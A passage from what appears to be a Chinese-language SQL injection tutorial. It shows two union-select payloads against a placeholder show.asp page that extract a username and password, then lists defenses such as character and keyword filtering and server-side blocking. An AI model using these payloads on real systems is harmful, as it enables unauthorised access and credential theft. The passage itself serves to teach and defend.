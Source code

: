 7.數據庫返回用戶名和密碼

\(1\) http://xxxxx/show.asp?code=-1' union all

select 1,null,3,null,null,6,7,8,\(select top 1 usr\_name from usr\),10 --

輸出結果如下所示：

    附件1：7

    附件2：8

    附件3：2016001

輸出用戶名2016001，在搜索密碼。

\(2\) http://xxxxx/show.asp?code=-1' union all

select 1,null,3,null,null,6,7,8,

\(select passwd  from usr where usr\_name='2016001'\),10 --

輸出結果如下所示：

    附件1：7

    附件2：8

    附件3：123456

輸出用戶名2016001，密碼123456，此時即可登錄，通過Python可以獲取所有值。

防止SQL注入

上面通過數據庫原理進行了詳細的講解，這種網站基本很少存在了，幾乎爲0，更多的網頁都有相關的屏蔽的。比如：

1.在URL設置不允許非法字符，如單引號、等號、註釋--、減號，提示非法參數；

2.在URL設置不允許SQL常見的關鍵詞，如and、select、or、insert等；

3.傳遞的id=115參數必須爲數字才能正常跳轉，否則跳轉錯誤

4.服務器啓用SQL注入攔截功能，提示當前網頁的 URL / POST / COOKIES中包含了特定的 SQL字符而被防火牆攔截，因爲可能通過POST、Cookies進行攻擊。各方面都需要做到防禦。

5.可以使用Javascript在客戶端進行不安全字符屏蔽，也可以在jsp中調用該函數檢查是否包函非法字符，或使用正則表達式過濾傳入的參數，防止SQL從URL注入。

